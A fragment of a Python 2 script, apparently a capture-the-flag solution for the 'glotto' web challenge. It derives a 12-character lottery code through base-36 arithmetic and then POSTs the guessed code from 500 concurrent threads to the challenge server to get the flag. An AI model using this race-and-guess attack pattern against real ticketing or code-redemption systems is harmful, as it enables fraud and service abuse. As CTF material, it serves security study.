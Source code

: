 ```python
    c2 = get_char(c2n)

    c3n = code1 % 36
    c3 = get_char(c3n)

    c4n = (code1/36) % 36
    c4 = get_char(c4n)

    c5n = ((code1/36)/36) % 36
    c5 = get_char(c5n)

    c6n = (((code1/36)/36)/36) % 36
    c6 = get_char(c6n)

    c7n = code2 % 36
    c7 = get_char(c7n)

    c8n = (code2/36) % 36
    c8 = get_char(c8n)

    # c9n = ((code2/36)/36) % 36
    # c9 = get_char(c9n)
    c9 = '1'

    c10n = code3 % 36
    c10 = get_char(c10n)

    c11 = '0'

    code = [c0, c1, c2, c3, c4, c5, c6, c7, c8, c9, c10, c11]

    print code

    # post new code to obtain flag
    data = {
        'code' : ''.join(code)
    }

    resp = s.post('https://glotto.web.ctfcompetition.com', data=data)

    print "Body: %s" % resp.text


## start threads
thread_list = []
for i in range(500):
    thread_list.append(Thread(target = attempt))
    
for t in thread_list:
    t.start()

for t in thread_list:
    t.join()

```
